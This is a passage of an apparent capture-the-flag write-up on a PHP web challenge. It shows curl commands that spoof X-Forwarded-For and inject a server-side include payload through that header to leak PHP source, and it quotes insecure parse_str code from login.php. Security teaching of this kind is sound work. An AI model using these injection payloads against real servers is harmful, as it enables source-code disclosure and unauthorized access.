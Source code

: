 ```Bash
$ curl -X '' http://31.22.123.49:1908/internal/
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at 127.0.1.1 Port 13337</address>
</body></html>
```

Once we know that the challenge is hosted internally at `127.0.1.1`, port `13337`, we can try to use the `X-Forwarded-For` header to trick the server into believing that our original IP is `127.0.1.1`.

```Bash
$ curl -b 'PHPSESSID=qloervi3nq447sdlukt2cp0g29' -H 'X-Forwarded-For: 127.0.0.1' http://31.22.123.49:1908/internal/admin
...
<div class="main">
        <div class="custom_tooltip">You're not admin.<span class="custom_tooltiptext">127.0.0.1, 128.130.112.21 isn't admins IP.</span></div>
</div>
```

The header is successfully parsed and the IP reflected back into the page, but no admin privileges are granted.

After hours of random attempts, we figured out that it was possible to perform a [SSI](https://en.wikipedia.org/wiki/Server_Side_Includes) injection (thanks Jan!) to leak the PHP source code of all the pages of the website.

```Bash
$ curl -b 'PHPSESSID=qloervi3nq447sdlukt2cp0g29' -H 'X-Forwarded-For: <!--#include virtual="admin.phps" -->' http://31.22.123.49:1908/internal/admin
```

It's enough to repeat the process for all the pages to reconstruct the [entire code base](src/). Notice that the server prevents us from accessing files that are located outside of the current directory, so we can't read the following files: `../config.php`, `../db_config.php`, `../db_credentials.php`.

Digging deeper
--------------
The sources are a constellation of bad security practices that is even surprising that the application is actually working. Sadly, this does not mean that the application can be easily exploited. As an example, we report some of the security pitfalls that can be easily spotted.

From `login.php`:

```PHP
// We had some issues with double encoded values. This fixed it.
$parmas = parse_str(urldecode(file_get_contents("php://input")));
```
